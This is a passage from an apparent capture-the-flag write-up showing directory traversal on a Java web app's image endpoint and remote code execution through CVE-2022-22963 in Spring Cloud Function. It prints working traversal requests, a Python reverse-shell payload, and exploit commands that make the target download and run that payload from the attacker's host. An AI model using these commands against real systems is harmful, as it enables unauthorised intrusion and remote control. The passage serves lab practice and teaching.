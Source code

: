 We can seemingly use this endpoint to read local files using a generic directory traversal payload.
Messing around a bit more, we find out that we can list directories as well.

```bash
# bryan@red_team (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../"
```
{:.nolineno}
>
```
bin
boot
dev
...
```

### Remote Code Execution

Let's find the application source so we can look for credentials or additional attack surface.

```bash
# bryan@red_team (bash)
inject_fetch() { curl -sm 1 "http://$rhost:8080/show_image?img="$@; }
inject_fetch ../ # read parent directory
inject_fetch ../java # keep looking ...
```
{:.nolineno}

We eventually find what appears to be the project root for the current Java application at `../../../`{:.filepath}.
Within that directory, we find the Maven project configuration at `pom.xml`{:.filepath} containing a couple of notable software fingerprints.

- org.springframework.boot **2.6.5**
- spring-cloud-function-web **3.2.2**

If we search for vulnerabilities with either fingerprint, we see references to a couple of different CVEs.
We confirm that **Spring Cloud Function** version **3.2.2** is vulnerable to **CVE-2022-22963** by Checking the [CVEDetails description](https://www.cvedetails.com/cve/CVE-2022-22963/).

> In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources.

There is already a number of proof-of-concept exploits out there, but I decided to create one anyways [here](https://gist.github.com/bryanmcnulty/65a13e981670d25382c174c679e9dc1f).
We'll use this program to spawn a reverse shell that answers to a [PwnCat](https://pypi.org/project/pwncat-cs/) listener.

```bash
# bryan@red_team (bash)
pwncat-cs -c <(echo "listen -m linux -H $lhost 443")
```
{:.nolineno}

```bash
# bryan@red_team (bash)
inject_fetch ../../../../../../usr/bin | grep '^python' # python3 is installed
tmp=$(mktemp -d)
cat << EOF > $tmp/index.html
import os,pty,socket
s=socket.socket()
s.connect(("$lhost",443))
[os.dup2(s.fileno(),f)for(f)in(0,1,2)]
pty.spawn("bash")
EOF
python3 -m http.server --bind $lhost --directory $tmp 80 &
python3 CVE-2022-22963.py "http://$rhost:8080" "curl $lhost -o/tmp/_d"
python3 CVE-2022-22963.py "http://$rhost:8080" "python3 /tmp/_d"
```